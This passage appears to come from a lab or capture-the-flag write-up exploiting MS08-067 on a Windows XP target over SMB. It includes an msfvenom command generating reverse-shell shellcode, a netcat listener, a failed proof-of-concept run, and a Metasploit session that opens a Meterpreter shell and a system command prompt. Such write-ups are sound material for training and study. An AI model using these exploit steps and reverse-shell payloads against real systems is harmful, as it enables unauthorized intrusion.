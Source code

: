 If we search for OS-specific vulnerabilities, we get the following:

* MS08-067
* MS08-068
* Some buffer overflow exploit from 2002 on `ExploitDB`.

We will try to run the `MS08-067` exploit. This exploit is available on `Metasploit`.

However, on my first try running the exploit, I found that it wasn't working properly for me.

I then tried a PoC exploit off GitHub. The PoC exploit requires us to inject shell code into the script as a payload (to spawn a reverse shell). We can generate this shell code through `msfvenom`:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=6200 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows`

Then start a listener:

`nc -lnvp 6200`

Likewise, the PoC exploit was not working for me:

```
$ python3 ms08_067_2018.py 10.10.10.4 6 445
<SNIP>
[-]Initiating connection
Exception in thread Thread-1:
<SNIP>
impacket.smb.SessionError: SMB SessionError: code: 0xc0000034 - STATUS_OBJECT_NAME_NOT_FOUND - The object name is not found.

During handling of the above exception, another exception occurred:

<SNIP>
impacket.smbconnection.SessionError: SMB SessionError: code: 0xc0000034 - STATUS_OBJECT_NAME_NOT_FOUND - The object name is not found.
```

I then decided to reset the machine and try `Metasploit` again.

```
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST tun0
LHOST => 10.10.14.23
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.23:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.4:1032) at 2024-08-03 13:21:00 -0400

meterpreter > shell
Process 1940 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
